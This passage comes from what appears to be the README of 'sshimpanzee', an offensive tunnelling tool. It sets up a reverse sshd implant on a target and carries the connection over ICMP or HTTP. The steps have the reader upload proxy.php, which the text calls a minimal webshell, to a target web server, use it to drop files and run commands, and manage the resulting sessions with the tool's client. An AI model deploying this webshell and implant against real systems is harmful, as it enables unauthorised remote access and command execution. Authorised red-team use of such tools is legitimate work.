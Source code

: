 2) Run the standard ssh client with icmptunnel as proxycommand:
```
ssh i -oProxyCommand=./icmptunnel -i test/CLIENT 
```

3) Run	the sshimpanzee	binary:
```
MODE=icmp REMOTE=127.0.0.1 ./sshimpanzee 
```


### Use HTTP Encapsulation (ssh -> http server -> sshd)

1) Upload the file /tuns/http_enc/proxy.php and sshd files to your target web server

2) Make sure proxy.php is correctly executed 

3) Run sshd binary on the webserver
```
MODE=http_enc ./sshimpanzee 
```

4) run ssh on client machine with python script in utils/scripts/ as proxy command :
```
ssh -o ProxyCommand='python proxy_cli.py http://127.0.0.1:8080/proxy.php EncryptionKey 2>/dev/null' a@a -i ../../keys/CLIENT 
```
> Multiple argument can be passed to  proxy_cli.py to add proxies proxies.
> Currently only PHP is supported. On a JSP server, it is recommended to use: [A Black Path Toward The Sun (ABPTTS)](https://github.com/nccgroup/ABPTTS)


#### Side notes about http Encapsulation
1) Proxy.php is a minimal webshell, you can use it to upload sshd to the server and run commands. proxy_cli.py offers --run and --drop options to do so.

2) You might experience a huge input lag, it is because a delay of 1 to 5 second is added to the packet sent by ssh client to prevent from generating to many http request. If you don't mind generating a lot of http request (thus a lot of logs on the web server) add the --no-buffer option to proxy_cli.py command.

## Using the sshimpanzee client
This repo also provide a client located in __utils/client/bin__.
Simply copy the CLIENT key in utils/client/keys/
```
sshimpanzee --new PORT #create a new listener on PORT
sshimpanzee --new-dns #create a new DNS listener (Don't forget to modify utils/client/config/dnsconf.txt)
sshimpanzee --new-icmp #create a new icmp listener
sshimpanzee --new-http PROXY_PHP_URL #create a new HTTP Session 

sshimpanzee --list #list availaible sessions

sshimpanzee --get SESSION_NUMBER #to jump into a session any extra parameters are passed as ssh params
sshimpanzee --rename SESSION_NUMBER #to rename a session
sshimpanzee --kill SESSION_NUMBER #to kill a session
sshimpanzee #use fzf to select which session you want
```
